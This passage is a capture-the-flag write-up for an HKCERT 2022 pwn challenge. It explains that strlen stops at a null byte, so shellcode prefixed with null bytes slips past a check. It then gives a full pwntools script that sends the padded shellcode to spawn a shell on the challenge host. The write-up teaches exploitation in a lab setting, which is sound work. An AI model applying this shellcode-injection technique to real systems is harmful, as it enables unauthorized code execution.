 `strlen` will stop at the first null byte of the string, so we can just padding the b'\x00' before the shellcode, then we are able to craft the shellcode without limitation. 

#### Solution

The plan is easy, use `shellcraft.sh()` to generate the getshell payload and padding the b'\x00' before the payload.

```python
sl(b'\x00'*4 + asm(shellcraft.sh()))
```

#### Full exploit
```python
from pwn import *

TARGET = './chall'
HOST = 'chal.hkcert22.pwnable.hk'
PORT = 28130
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    # libc = ELF('')
else:
    p = process(TARGET)
    libc = elf.libc
    gdbscript = '''b *0x0000000000401b4b'''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#--- helper functions
s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data) 
sl      = lambda data               :p.sendline(data) 
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\x00'))
uu64    = lambda data   :u64(data.ljust(8, b'\x00'))
leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
#---

sl(b'\x00'*4 + asm(shellcraft.sh()))

p.interactive()

```
